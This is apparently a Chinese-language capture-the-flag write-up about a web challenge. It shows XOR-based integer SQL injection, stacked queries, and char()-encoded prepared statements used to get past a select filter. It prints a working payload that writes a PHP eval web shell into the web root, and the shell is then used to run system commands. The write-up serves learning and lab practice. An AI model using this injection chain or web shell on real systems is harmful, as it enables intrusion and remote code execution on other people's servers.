 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-3
---
```


##  思路

1. 打开网页显示如下，有登录和注册框。注册账号登录后，有用户信息和编辑头像两个选项。

<img src="images/image-20210113193148596.png" alt="image-20210113193148596" width="50%;" />



<img src="images/image-20210113193336886.png" alt="image-20210113193336886" width="50%;" />

2. 点击用户信息，url中有id=2，这种情况很有可能存在sql注入，而且很可能是整型注入。

   <img src="images/image-20210113193445199.png" alt="image-20210113193445199" width="50%;" />

   修改id=2^1^1，可以正常显示；id=2^1，页面上无数据。说明存在整型注入。

   这里输入id=1,可以显示admin的信息，说明还存在越权漏洞。

   输入id=2-1和id=1显示结果一致。

3. 点击编辑头像，可以选择文件上传。说明可能存在文件上传漏洞。

   <img src="images/image-20210113194130354.png" alt="image-20210113194130354" width="50%;" />

   这里只能上传.jpg|.jpeg|.png|.gif类型的文件，而且是前端检测。

   使用bp拦截后，修改文件后缀再上传，仍然显示上传的jpg后缀文件。而且这里不管上传什么文件，都是下面这个文件名。

   `文件上传成功，保存于：../favicon/098f6bcd4621d373cade4e832627b4f6.jpg Mysql error!`

4. 继续考虑sql漏洞。

   利用异或注入时，按照常规思路，测试`id=2^1^(ascii(substr(database(),1,1))>0)`
   
   但页面上无任何内容显示，如下：
   
   <img src="images/image-20210113200537419.png" alt="image-20210113200537419" width="50%;" />
   
   测试`id=2^1^(if(ascii(mid(user(),1,1))>0,1,0))`,页面正常显示。
   
   <img src="images/image-20210113200651400.png" alt="image-20210113200651400" width="50%;" />
   
   说明这里会过滤一些关键字。（如何fuzz发现其他被过滤的关键字）
   
5. 堆叠注入。会过滤掉select。--》使用sql预处理

   格式：

   ```sql
   set @sql=concat();
   prepare s1 from @sql;
   execute s1;
   ```

   **新思路：**利用select into outfile  将一句话木马写入文件。

   `select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';`

   将上面的sql转成char（避免select被过滤）。

​		`?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;`

6. 访问上传的shell.php，并post请求，利用system()命令获取信息。如下，flag应该存在WelL_Th1s_14_fl4g中。

<img src="images/image-20210113201630356.png" alt="image-20210113201630356" width="60%;" />

7. 获取flag。

   <img src="images/image-20210113201831749.png" alt="image-20210113201831749" width="60%;" />

## 总结

- 本题利用堆叠注入，且select被过滤，可以使用sql的预处理语句。
- select *** into outfile  ‘(文件路径)’  将一句话写入文件
- 将字符串转换成对应ascii码，再利用char()函数--》绕过select过滤。
- 该题与**[强网杯 2019]随便注**有类似之处